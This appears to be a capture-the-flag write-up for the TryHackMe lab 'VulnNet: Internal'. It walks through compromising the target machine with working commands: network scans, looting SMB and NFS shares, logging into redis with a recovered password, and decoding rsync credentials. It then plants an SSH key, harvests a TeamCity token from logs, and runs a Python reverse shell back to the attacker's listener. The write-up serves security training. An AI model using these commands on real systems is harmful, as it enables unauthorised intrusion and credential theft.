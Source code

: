 # VulnNet: Internal

**Room Link:** [https://tryhackme.com/room/vulnnetinternal](https://tryhackme.com/room/vulnnetinternal)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### TCP/139 - **NetBIOS**

```
nbtscan $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

###

### TCP/445 - **SMB**

In SMB there is the first flag.

**Kali**

```
smbget -R smb://$VICTIM/shares
smbclient  \\\\$VICTIM\\shares
smb: \> cd temp
smb: \temp\> get services.txt
smb: \temp\> cd ..
smb: \> cd data
smb: \data\> get data.txt 
smb: \data\> get business-req.txt 
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/2049 - **NFS**

**Kali**

```
showmount -e $VICTIM
mkdir /mnt/nfs
mount $VICTIM:/opt/conf /mnt/nfs
cd /mnt/nfs
cat redis/redis.conf
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
redis-cli -h $VICTIM -a "B65Hx562F@ggAZ@F"
10.10.232.200:6379> KEYS *
10.10.232.200:6379> KEYS "internal flag"
10.10.232.200:6379> GET "internal flag"
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
KEYS "authlist"
LRANGE authlist 1 100
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/873 - RSYNC

We are able to transfer are key to allow us to login to as the sys-internal user.

**Kali**

```
rsync --list-only rsync://$VICTIM 
rsync --list-only rsync://rsync-connect@$VICTIM/files
Password: Hcg3HP67@TW@Bc72v
ssh-keygen -t rsa
cp ~/.ssh/id_rsa.pub authorized_keys
rsync authorized_keys rsync://rsync-connect@$VICTIM/files/sys-internal/.ssh
Password: Hcg3HP67@TW@Bc72v
```

### TCP/22 - SSH

**Kali**

```
ssh sys-internal@$VICTIM
```

**Victim**

```
ss -ltp
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -D 9050 sys-internal@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Add the token in the Authentication token. There was multiple listed, it was the last one

**Victim**

```
grep -iR token /TeamCity/logs/ 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Custom script**

```
export RHOST="$KALI";export RPORT=1337;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (21) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

